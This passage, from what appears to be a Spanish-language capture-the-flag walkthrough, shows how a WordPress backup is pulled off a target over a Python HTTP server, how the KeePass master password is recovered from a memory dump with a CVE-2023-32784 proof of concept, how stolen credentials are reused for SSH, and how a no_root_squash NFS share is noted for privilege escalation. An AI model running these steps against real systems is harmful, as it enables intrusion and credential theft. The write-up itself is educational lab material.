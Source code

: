    - Descargamos ese archivo, mediante un servidor y Python
     ```bash
     cd /var/www/html/wordpress/backups/cp-sharedbbdd.zip

     python3 -m http.server 5000
     # el puerto 5000 nos exime de permisos
     ```
  
   - Descargamos en nuestra maquina y descomprimimos
     ```bash
     wget (IP-Victima):5000/cp-sharedbbdd.zip

     unzip cp-sharedbbdd.zip
     ```

   - Al descomprimirlo, obtenemos las siguientes carpetas
     ```bash
     •KeePass.DMP
     •sharedbbdd.kdbx
     ``` 

   - Vemos que tenemos un KeePass. Probamos con John the Ripper pero no obtuvimos respuesta. Investigando, damos con un script donde podemos dumpar el password (CVE-2023-32784).

   - https://github.com/dawnl3ss/CVE-2023-32784

     ```bash
     python3 poc.py keepass.DMP
     #●*********%
     ```

   - La primera letra no la identifica, intuimos que es "s*********%" o "S*********%"**

   - Ingresamos al KeePass y encontramos las siguientes pass correspondientes a cada user
     ```bash
     •condor: 		O******************I
     •j4ckie: 		p******************8
     •jackondor: 	7******************9
     ```

   - Ingresamos vía SSH con cada usuario y pass, la que nos da resultados es "jackondor"
     ```bash
     ssh jackondor@192.168.200.17
     pass:7********************9
     ```

   - Y ya estamos dentro como jackondor
     ```bash
     whoami
     #jackondor"
     ```
   - Escala de privilegios

   - Exploramos las monturas y encontramos configuraciones en "exports":
     ```bash
     cat /etc/exports
     ```
     Configuración de monturas:
     ```
     /shared/condor *(rw,sync,no_subtree_check)
     /shared/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
     #/tmp tiene permisos de root
     /shared/j4ckie *(rw,sync,no_subtree_check)
     ```
